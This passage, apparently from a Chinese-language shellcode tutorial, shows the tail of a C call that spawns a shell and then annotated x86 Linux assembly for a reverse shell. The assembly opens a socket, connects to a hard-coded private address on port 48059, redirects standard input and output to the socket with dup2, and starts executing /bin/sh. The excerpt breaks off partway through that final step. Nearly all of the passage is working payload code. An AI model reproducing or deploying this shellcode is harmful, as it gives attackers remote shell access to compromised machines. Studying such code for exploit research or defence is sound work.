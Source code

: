```
  execv(shell[0],shell,NULL);   //建立一个shell
}
```

#### 2）汇编语言代码

```
section .text
global _start
_start:
xor eax,eax ;清空eax
xor ebx,ebx ;清空ebx
xor edx,edx  ;清空edx
 
;soc=socket(2,1,0)
push eax  ;socket的第三个参数：0
push byte 0x1 ;socket的第二个参数：1
push byte 0x2 ;socket的第一个参数：2
mov ecx,esp ;将数组的地址设置为socketcall的第二个参数
inc bl  ;将socketcall的第一个参数设置为1
mov al,102  ;调用socketcall,分支调用号为1：SYS_SOCKET
int 0x80  ;进入核心态，执行系统调用
mov esi,eax ;将返回值(eax)存储到esi中（即soc句柄）
 
;remote=connect(soc,(struct sockaddr *)&serv_addr,0x10)
push edx; ;仍然为0，用来作为接下来压栈的数据的结束符
push long 0x6400A8C0  ;本节代码中新增，将地址反序得到的十六进制压栈
push word 0xBBBB  ;将端口压栈，十进制为48059
xor ecx,ecx ;清空ecx，以便保存结构的sa_family字段
mov cl,2  ;将ecx的地位字节，设置为2
push word cx  ;建立结构，包括端口和sin.family,共四个字节
mov ecx,esp ;将结构的地址（在栈上）复制到ecx
push byte 0x10  ;connect参数的开始，将16压栈
push ecx  ;在栈上保存结构的地址
push esi  ;将服务器文件描述符esi保存到栈
mov ecx,esp ;将参数数组的地址保存到ecx（socketcall的第二个参数）
mov bl,3  ;将bl设置为3，socketcall的第一个参数
mov al,102  ;调用socketcall，分支调用号为3：SYS_CONNECT
int 0x80  ;进入核心态，执行系统调用
 
mov ebx,esi ;将客户端的soc文件描述符复制到ebx
;dup2(soc,0)
xor ecx,ecx ;清空ecx
mov al,63 ;将系统调用的第一个参数设置为63：dup
int 0x80  ;进行系统调用
 
;dup2(client,1)
inc ecx ;ecx设置为1
mov al,63 ;准备进行系统调用:dup2:63
int 0x80  ;进行系统调用
 
;dup2(client,2)
inc ecx ;ecx设置为2
mov al,63 ;准备进行系统调用:dup2:63
int 0x80 ;进行系统调用
 
;标准的execv("/bin/sh"...
push edx
push long 0x68732f2f
push long 0x6e69622f
mov ebx,esp
push edx
push ebx
mov ecx,esp
```